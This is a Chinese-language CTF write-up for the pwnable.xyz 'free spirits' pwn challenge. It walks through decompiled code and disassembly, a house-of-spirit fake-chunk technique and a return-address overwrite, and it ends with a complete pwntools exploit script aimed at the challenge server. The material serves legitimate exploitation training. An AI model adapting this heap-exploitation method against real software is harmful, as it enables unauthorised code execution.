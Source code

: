 ```yaml
---
title: pwnable-free-spirits
date: 2019-12-18 15:29:58
tags: 
- pwn
- pwnable.xyz
---
```


# pwnable.xyz free spirits

### 0x0 知识准备

这道题涉及到了新的知识盲区（打算拿这个网站的题入门来着，之前并没学过PWN，所以要补充的知识很多）

这次用到了一个惯用方法：house of spirit

涉及到内存中`malloc` 和`free`函数的具体实现。具体的知识我就不在这里细说了，有兴趣的可以参考下面的文章：

[CTF pwn 中最通俗易懂的堆入坑指南](https://bbs.ichunqiu.com/thread-47938-1-1.html)

[二进制安全之堆溢出（系列）—— house of spirit](https://zhuanlan.zhihu.com/p/78304033)

### 0x1 分析

老样子，看一下开启的保护：

![](https://i.loli.net/2019/12/18/HE2sIlnF3cKMGQ7.png)

看起来可以从实际的地址入手。

接下来，分析一下源代码吧

`main()`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *v3; // rdi
  signed __int64 i; // rcx
  int v5; // eax
  __int64 v7; // [rsp+8h] [rbp-60h]
  char *buf; // [rsp+10h] [rbp-58h]
  char nptr; // [rsp+18h] [rbp-50h]
  unsigned __int64 v10; // [rsp+48h] [rbp-20h]

  v10 = __readfsqword(0x28u);
  setup(*(_QWORD *)&argc, argv, envp);
  buf = (char *)malloc(0x40uLL);
  while ( 1 )
  {
    while ( 1 )
    {
      _printf_chk(1LL, "> ");
      v3 = &nptr;
      for ( i = 12LL; i; --i )
      {
        *(_DWORD *)v3 = 0;
        v3 += 4;
      }
      read(0, &nptr, 0x30uLL);
      v5 = atoi(&nptr);
      if ( v5 != 1 )
        break;
      __asm { syscall; LINUX - sys_read }
    }
    if ( v5 <= 1 )
      break;
    if ( v5 == 2 )
    {
      _printf_chk(1LL, "%p\n");
    }
    else if ( v5 == 3 )
    {
      if ( (unsigned int)limit <= 1 )
        _mm_storeu_si128((__m128i *)&v7, _mm_loadu_si128((const __m128i *)buf));
    }
    else
    {
LABEL_16:
      puts("Invalid");
    }
  }
  if ( v5 )
    goto LABEL_16;
  if ( !buf )
    exit(1);
  free(buf);
  return 0;
```

`win()`函数从来都是老样子：

```c
int win()
{//0x400a3e
  return system("cat /flag");
}
```

那就具体分析一下`main()`函数吧

​	`while`循环内好像是一个菜单。

当`nptr`读入`1`的时候，可以读入`16`个字节到`buf`指向的地址:

```assembly
0x400849:   48 8b 74 24 10               	mov rsi, qword ptr [rsp + 0x10]
0x40084e:   48 31 c0                     	xor rax, rax
0x400851:   48 31 ff                     	xor rdi, rdi
0x400854:   48 c7 c2 20 00 00 00         	mov rdx, 0x20
0x40085b:   0f 05                        	syscall 
```

当`nptr`读入`2`的时候，打印`buf`变量的地址（并不是`buf`指向的地址，而是其本身的地址）：

```assembly
0x4007df:   4c 8d 64 24 10               	lea r12, [rsp + 0x10]           #buf

0x40085f:   48 8d 35 7b 02 00 00         	lea rsi, [rip + 0x27b]
0x400866:   4c 89 e2                     	mov rdx, r12
0x400869:   bf 01 00 00 00               	mov edi, 1
0x40086e:   31 c0                        	xor eax, eax
0x400870:   e8 2b ff ff ff               	call 0x4007a0 <__printf_chk>
```

当`nptr`读入`3`的时候，从`v7`的地址开始存`16`字节的内容，内容来自`buf`指向的地址中的内容。

但是注意这里，`v7`和`buf`的位置只相差`8`个字节距离，所以这里也许尝试去覆盖`buf`的内容，达到修改`buf`指针的作用。

当`nptr`读入其他值的时候，退出`while`循环。

退出循环后，会`free`掉`buf`指向地址的内容。

### 0x3 思路

说实话，这道题我是根本没有思路，看过了一个师傅的write up之后才知道了house of spirit的方法。其中一度在`free`和`malloc`的原理上卡壳。

废话少说，我们看这道题的flag 怎么拿。

由于进入`菜单3`我们可以修改`buf`指向的位置，另外`菜单1`这里我们写入`buf`指向的地址内容。因此我们可以尝试通过在`buf`指向的地址写入我们需要覆盖内容的地址来修改我们需要覆盖内容的地址的数据，而且我们从`菜单2`中得到的地址是程序中的实际地址，这里有点绕口，可以看之后的代码辅助理解一下。

所以我们可以尝试通过修改`main()`函数的返回地址中的内容为`win()`函数的起始地址来调用`win()`函数拿到flag。

所以我们首先得到`buf`的地址，通过偏移量算出来返回地址。然后通过上述的操作即可修改返回地址中内容为`win()`的起始地址。

但是注意，我们做到这里之后，`buf`的地址指向的必然是返回地址，这时候退出循环触发`free()`函数时候，清理掉的内容也正是返回地址的内容，我们的之前工作都白费，而且还会异常退出。

那么这个时候处理`free()`函数就用到了house of spirit。

我们预想到了会在`free`这里出岔子。那么我们让`free()`函数不去清理返回地址不就好了。我们通过创建伪造的malloc_chunk来让`free()`别打扰我们的返回地址。

我暂时认为，我们只要在一个不相关的地址在制造伪块，并且大小和原来一样就OK。那就选择在`.bss`区来创建好了。地址是`0x601030`。大小将会设置为`0x51`。

### 0x4 代码

```python
from pwn import *

context.log_level = 'debug'
# p = process("./challenge")
p = remote("svc.pwnable.xyz", 30005)
elf = ELF('./challenge')

win_addr = elf.symbols['win']
chunk_addr = 0x601030

p.sendafter('> ', '2')
buf = int(p.recvuntil("\n"), 16)
ret = buf + 0x58

p.sendafter('> ', '1')
payload = 'A' * 8 + p64(ret)
p.sendline(payload)
p.sendafter('> ', '3')

p.sendafter('> ', '1')
payload = p64(win_addr) + p64(chunk_addr + 0x8)
p.sendline(payload)
p.sendafter('> ', '3')

p.sendafter('> ', '1')
payload = p64(0x51) + p64(chunk_addr + 0x58)
p.sendline(payload)
p.sendafter('> ', '3')

p.sendafter('> ', '1')
payload = p64(0x21) + p64(chunk_addr + 0x10)
p.sendline(payload)
p.sendafter('> ', '3')

p.sendafter('> ', 'a')
p.interactive()
```

### 0x5 结果

![](https://i.loli.net/2019/12/18/qjXMQAGLd9zCJli.png)